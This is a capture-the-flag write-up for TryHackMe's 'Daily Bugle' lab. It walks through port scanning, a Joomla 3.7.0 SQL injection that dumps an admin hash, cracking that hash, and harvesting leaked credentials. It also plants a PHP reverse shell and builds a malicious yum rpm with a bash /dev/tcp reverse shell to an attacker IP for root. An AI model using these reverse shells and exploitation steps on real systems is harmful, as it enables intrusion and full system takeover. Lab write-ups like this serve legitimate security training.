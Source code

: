 # [Daily Bugle](https://tryhackme.com/room/dailybugle)

Machine IP: `10.10.55.2`

Nmap results:

`nmap --top-ports 100 -sV $MACHINE`

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-11-13 00:27 CET
Nmap scan report for 10.10.55.2
Host is up (0.088s latency).
Not shown: 97 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
3306/tcp open  mysql   MariaDB (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.05 seconds
```

Dirbuster results:
`gobuster -u http://10.10.55.2/ -w ~/wordlists/Discovery/Web-Content/directory-list-2.3-small.txt`
```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.55.2/
[+] Threads      : 10
[+] Wordlist     : /home/damian/wordlists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2021/11/13 00:43:25 Starting gobuster
=====================================================
/images (Status: 301)
/templates (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/bin (Status: 301)
/plugins (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/components (Status: 301)
/cache (Status: 301)
/libraries (Status: 301)
/tmp (Status: 301)
/layouts (Status: 301)
/administrator (Status: 301)
/cli (Status: 301)
```


On `/administrator` endpoint we can find that this server is running on Joomla.
To check Joomla version we can visit `http://10.10.55.2/administrator/manifests/files/joomla.xml`.

Result: `<version>3.7.0</version>`

[Quick Google search shows that this version is affected](https://www.exploit-db.com/exploits/42033)

We can use [this script](https://github.com/stefanlucas/Exploit-Joomla) to exploit this vuln. We need to use `python2` and install module `requests` in order for it to work.

The output is:

```
[-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

This hash format is [bcrypt](https://en.wikipedia.org/wiki/Bcrypt).

We can crack this using `john hash.txt --wordlist=~/wordlists/rockyou.txt --format=bcrypt`

Output:
```
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)
1g 0:00:02:07 100% 0.007827g/s 366.7p/s 366.7c/s 366.7C/s wingwing..smile4ever
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

So, the password is `spiderman123`

Now that we have access to admin panel of Joomla, we can gain reverse shell by entering `Extensions->Templates->Protostar` and edit `index.php` to include following reverse shell in it: `$sock=fsockopen("10.8.248.211",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);`

We are user `apache`. We can download `linpeas` using local http server (`python3 -m http.server 8080`). A quick look at the results shows this suspicious snippet (in `configuration.php`):

```
╔══════════╣ Searching passwords in config PHP files
	public $password = 'nv5uz9r3ZEDzVjNu';
			$this->password = (empty($this->options['db_pass'])) ? '' : $this->options['db_pass'];
			$this->password = null;
			'password' => $this->password,
```

If we try this password for `jjameson` user it works! We can also connect via ssh using that password and `ssh jjameson@10.10.55.2`.

We can now cat the `user` flag.

`sudo -l` has interesting output:

```
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

This gives us a hint that we may be able to exploit `yum`.

[GTFObins](https://gtfobins.github.io/gtfobins/yum/) confirms that suspicion and shows how we are able to exploit `yum`. [This](https://medium.com/@klockw3rk/privilege-escalation-how-to-build-rpm-payloads-in-kali-linux-3a61ef61e8b2) site is also useful.

In short: we need to create an `rpm` package which can be based on a `bash` script with reverse shell, in my case:
```
#!/bin/bash

bash -i >& /dev/tcp/10.8.248.211/8082 0>&1
```

After that, it's as simple as reading flag in `/root`.
